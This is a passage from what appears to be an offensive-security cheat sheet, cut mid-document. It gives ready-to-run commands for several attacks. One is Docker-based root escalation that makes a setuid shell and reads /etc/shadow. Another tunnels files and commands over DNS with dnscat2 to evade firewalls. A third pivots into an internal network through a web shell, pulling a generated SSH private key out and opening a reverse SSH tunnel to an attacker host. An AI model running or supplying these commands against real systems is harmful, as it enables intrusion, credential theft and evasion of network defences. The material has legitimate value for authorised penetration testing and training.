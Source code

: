 ```

WORKDIR $WORKDIR
<< EOF

ek@victum:~$ docker build -t my-docker-image .
ek@victum:~$ docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c \
'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
whoami
# root

ek@victum:~$ docker run -v /etc:/stuff -t my-docker-image /bin/sh -c 'cat /stuff/shadow'
```
### Tunneling Over DNS to Bypass Firewall

```
# Tunneling Data and Commands Over DNS to Bypass Firewalls
# dnscat2 supports "download" and "upload" commands for getting files (data and programs) to and from # the victim’s host.

# server (attacker)
$ apt-get update
$ apt-get -y install ruby-dev git make g++
$ gem install bundler
$ git clone https://github.com/iagox86/dnscat2.git
$ cd dnscat2/server
$ bundle install
$ ruby ./dnscat2.rb
dnscat2> New session established: 16059
dnscat2> session -i 16059

# client (victum)
# https://downloads.skullsecurity.org/dnscat2/
# https://github.com/lukebaggett/dnscat2-powershell
$ dnscat --host <dnscat server_ip>
```
### Compile Assemble code

```
nasm -f elf32 simple32.asm -o simple32.o
ld -m elf_i386 simple32.o simple32

nasm -f elf64 simple.asm -o simple.o
ld simple.o -o simple
```
### Pivoting to Internal Network Via Non Interactive Shell

```
# generate ssh key with shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=whoami"
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh-keygen -f /tmp/id_rsa -N \"\" "
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa"

# add tempuser at attacker ps
$ useradd -m tempuser
$ mkdir /home/tempuser/.ssh && chmod 700 /home/tempuser/.ssh
$ wget -O - -q "http://domain.tk/sh.php?cmd=cat /tmp/id_rsa" > /home/tempuser/.ssh/authorized_keys
$ chmod 700 /home/tempuser/.ssh/authorized_keys
$ chown -R tempuser:tempuser /home/tempuser/.ssh

# create reverse ssh shell
$ wget -O - -q "http://domain.tk/sh.php?cmd=ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -R 127.0.0.1:8080:192.168.20.13:8080 -N -f tempuser@<attacker_ip>"
```